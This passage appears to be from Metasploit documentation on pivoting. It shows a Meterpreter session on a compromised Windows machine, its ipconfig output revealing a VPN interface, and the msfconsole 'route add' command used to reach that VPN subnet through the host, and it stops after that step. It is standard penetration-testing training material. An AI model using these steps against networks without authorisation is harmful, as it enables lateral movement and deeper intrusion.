 There are three mains ways that you can use for moving around inside a network: 

 - The route command in the msf prompt
 - The route command in the the Meterpreter prompt
 - The portfwd command

***Routing through msfconsole*** 

The route command from the msf prompt allows you connect to hosts on a different network through the compromised machine. You should be able to determine that by looking at the compromised machine's ipconfig:

```
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.201:49182) at 2016-03-04 20:35:31 -0600

meterpreter > ipconfig
...
Interface 10
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:86:4b:0d
MTU          : 1472
IPv4 Address : 192.168.1.201
IPv4 Netmask : 255.255.255.0
IPv6 Address : 2602:30a:2c51:e660::20
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
IPv6 Address : 2602:30a:2c51:e660:44a:576e:3d2c:d765
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : 2602:30a:2c51:e660:94be:567f:4fe7:5da7
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
IPv6 Address : fe80::44a:576e:3d2c:d765
IPv6 Netmask : ffff:ffff:ffff:ffff::

...

Interface 26
============
Name         : VPN
Hardware MAC : 00:00:00:00:00:00
MTU          : 1400
IPv4 Address : 192.100.0.100
IPv4 Netmask : 255.255.255.255

...
```

The example above shows that we have a Meterpreter connection to 192.168.1.201. Let's call this box A, and it  is connected to the 192.100.0.0/24 VPN network. As an attacker, we aren't connected to this network directly, but we can explore that network through box A. 

At the msf prompt, do:

```
msf exploit(handler) > route add 192.100.0.0 255.255.255.0 1
[*] Route added
```
